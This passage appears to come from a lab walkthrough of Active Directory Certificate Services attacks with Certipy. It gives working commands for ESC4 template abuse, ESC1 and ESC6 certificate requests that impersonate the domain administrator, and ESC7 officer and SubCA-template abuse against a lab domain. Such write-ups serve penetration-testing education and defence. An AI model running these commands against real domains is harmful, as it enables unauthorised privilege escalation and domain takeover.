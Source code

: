 ```
certipy template -u attacker -p 'P@ssw0rd' -template ESC4 -save-old
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/263d32f4-ad6c-4c01-8cf1-5843f4254319)

Exploit ESC1

```
certipy req -u attacker -p 'P@ssw0rd' -ca lab-DC-CA -target 192.168.1.2 -template ESC4 -upn administrator@lab.lan
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/27899f7b-944b-4809-aa98-f15d75635ce2)

Finally restore the configuration:

```
certipy template -u attacker -p 'P@ssw0rd' -target 192.168.1.2 -template ESC4 -configuration ESC4.json
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/5313b7af-c4e6-4bfc-a0f7-dbebc50b4e42)

<br />

### Exploitation of ESC6

When requesting a new certificate with a specified UPN with Certipy, it will automatically detect and exploit this vulnerability. This can be done with:

```
certipy req -u attacker -p 'P@ssw0rd' -target 192.168.1.2 -ca 'lab-DC-CA' -template User -upn administrator@lab.lan
```

<br />

### Exploitation of ESC7

First, with the ManageCA permission, add yourself as an officer to the CA

```
certipy ca -ca 'lab-DC-CA' -add-officer attacker -username attacker -password 'P@ssw0rd' -dc-ip 192.168.1.2
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/01ea8173-0851-4b35-b9d8-b7c30e098633)

Utilize the "SubCA" template for our attack. The template is enabled by default, but if it's disabled then we can enable it ourselves.

```
certipy ca -ca 'lab-DC-CA' -enable-template "SubCA" -username attacker -password 'P@ssw0rd' -dc-ip 192.168.1.2
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/c4eeafb5-549b-4729-a944-fcd34b9d0785)
